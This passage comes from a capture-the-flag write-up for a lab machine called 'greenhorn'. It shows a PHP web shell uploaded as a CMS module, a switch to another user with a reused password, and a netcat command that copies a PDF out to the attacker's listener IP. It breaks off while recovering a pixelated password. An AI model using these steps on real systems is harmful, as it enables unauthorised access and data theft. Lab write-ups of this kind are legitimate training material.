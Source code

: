 ```bash
$ zip sirius.zip shell.php 
  adding: shell.php (deflated 60%)
```

Now we go the web admin dashboard, select `options` -> `manage modules`.

![modules](8.png)

Then select `install a module` and upload the zip file.

![upload](9.png)

Now we request our file at `http://greenhorn.htb/data/modules/sirius/shell.php`

![shell](10.png)

## **Privilege Escalation**

After getting a shell, we find a user called `junior`, with the password `iloveyou1` we can switch to that user.

```bash
www-data@greenhorn:/home/junior$ su junior 
Password: 
junior@greenhorn:~$ id
uid=1000(junior) gid=1000(junior) groups=1000(junior)
junior@greenhorn:~$ 
```

We find a pdf on the user's directory.

```bash
junior@greenhorn:~$ ls
 user.txt  'Using OpenVAS.pdf'
```

Let's copy it and see what's there.

On our machine we run :

```bash
nc -lvnp 1234 > openvas.pdf
```

Now on the target we run:

```bash
nc 10.10.16.49 1234 < 'Using OpenVAS.pdf'
```

![pdf](11.png)

The file seems to contain a password but it's pixilated.

Using a tool called [Depix](https://github.com/spipm/Depix) we can reverse the pixilation and see the password.

First we save the password image.
